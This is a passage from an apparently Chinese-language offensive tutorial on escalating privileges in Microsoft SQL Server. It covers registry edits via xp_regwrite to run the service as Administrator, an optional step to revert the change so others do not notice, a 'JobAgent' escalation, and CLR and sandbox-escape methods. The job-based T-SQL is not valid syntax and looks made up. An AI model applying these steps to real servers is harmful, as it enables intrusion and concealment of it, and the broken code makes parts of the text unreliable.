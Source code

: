 ```plsql
EXEC xp_regread N'HKEY_LOCAL_MACHINE',N'SOFTWARE\Microsoft\MSSQLServer\MSSQLServer',N'LoginMode'
```
2. 找到MSSQL服务对应的registry项,如:
```plsql
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MSSQL$SQL2019 
```
3. 修改注册表项中`ObjectName`的值为`Administrator`,如:
```plsql
DECLARE @name NVARCHAR(512);
SET @name = N'Administrator';  
EXEC xp_regwrite N'HKEY_LOCAL_MACHINE', 
    N'SYSTEM\CurrentControlSet\Services\MSSQL$SQL2019',  
    N'ObjectName',   
    @name;
```
4. 重启MSSQL服务,然后就可以以`sa`帐号登录,同时具有`sysadmin`权限和服务器本地管理员权限。
5. (可选)再修改注册表将`ObjectName`改回 NT SERVICE\MSSQL$SQL2019防止他人发现。

#### 7.JobAgent提权

-  查找有权限创建作业的帐号,如`sa`
- 使用该帐号创建作业,指定作业owner为低权限用户
- 低权限用户可以修改和执行作为自己owner的作业,从而达到提权的目的

1. 创建作业的高权限用户:
```plsql
CREATE LOGIN newuser WITH PASSWORD = 'password'
CREATE USER newuser FOR LOGIN newuser
GRANT ALTER ANY JOB TO newuser
```
2. 新用户创建作业,指定OWNER为低权限用户:
```plsql
EXECUTE AS USER = 'newuser'
CREATE JOB DeleteTablesJob 
AS
DELETE * FROM sys.tables
OWNER = 'lowprivuser'  --指定OWNER为lowprivuser用户
```
3. 低权限用户可以修改并启动自己OWNER的作业:
```plsql
EXECUTE AS USER = 'lowprivuser'  --以lowprivuser用户执行
ALTER JOB DeleteTablesJob ENABLE  
```
4. 作业被启动,lowprivuser用户就完成了提权,可以删除sys.tables表等。

#### 8.CLR提权

-  先创建CLR组件,指定组件owner为`sa`等高权限用户
-  低权限用户调用作为owner的CLR组件,就可以执行高权限命令,实现提权

#### 9.沙盒提权

-  MSSQL中的沙盒机制可以限制SQL代码的执行权限
-  但是如果可以编写和执行CLR或Python等语言的代码,就可以绕过沙盒限制获取更高权限
-  这种利用CLR、Python等脚本语言来逃逸MSSQL沙盒限制的方法可以达到提权的目的
